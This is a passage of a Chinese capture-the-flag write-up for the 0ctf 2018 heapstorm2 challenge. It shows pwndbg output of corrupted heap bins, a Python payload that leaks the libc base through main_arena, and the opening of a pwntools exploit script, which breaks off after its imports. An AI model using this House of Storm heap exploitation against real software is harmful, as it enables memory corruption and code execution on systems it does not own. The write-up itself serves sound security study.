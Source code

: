 ```shell
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x5650f30ea060 —▸ 0x7f6e70b42b78 (main_arena+88) ◂— 0x5650f30ea060
BK: 0x5650f30ea060 —▸ 0x133707e8 ◂— 0x0
smallbins
empty
largebins
0x4c0 [corrupted]
FD: 0x5650f30ea5c0 ◂— 0x0
BK: 0x5650f30ea5c0 —▸ 0x5650f30ea060 —▸ 0x133707e8 ◂— 0x0
pwndbg> x/4gx 0x133707e0
0x133707e0:     0x50f30ea060000000      0x0000000000000056
0x133707f0:     0x0000000000000000      0x0000000000000000
```

所以相同的思路构造payload来leak libc。

```python
payload = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(heap+0x10) + p64(8)
update(0, payload)

leak = view(1)
unsorted_bin = u64(leak)
main_arena = unsorted_bin - 88
libc_base = main_arena - 0x3c4b20		//main_aren 
print ('libc_base: %x' % libc_base)
```

然后写入gadget拿shell。

需要注意的是：`main_arena`和`libc_base`的偏移可以用main_arena_offset工具来得到，也有其他方法。

```shell
➜  0ctf_2018_heapstorm2 main_arena /lib/x86_64-linux-gnu/libc.so.6
[+]libc version : glibc 2.23
[+]build ID : BuildID[sha1]=1ca54a6e0d76188105b12e49fe6b8019bf08803a
[+]main_arena_offset : 0x3c4b20
```

### 0x2 EXP

稍加改动。

```python
#!/usr/bin/env python
# encoding: utf-8

#flag{Seize it, control it, and exploit it. Welcome to the House of Storm.}

import itertools
from hashlib import sha256
from pwn import *

context(arch='amd64', os='linux', log_level='info')
context.terminal = ['tmux', 'splitw', '-h']
r = None
def alloc(size):
```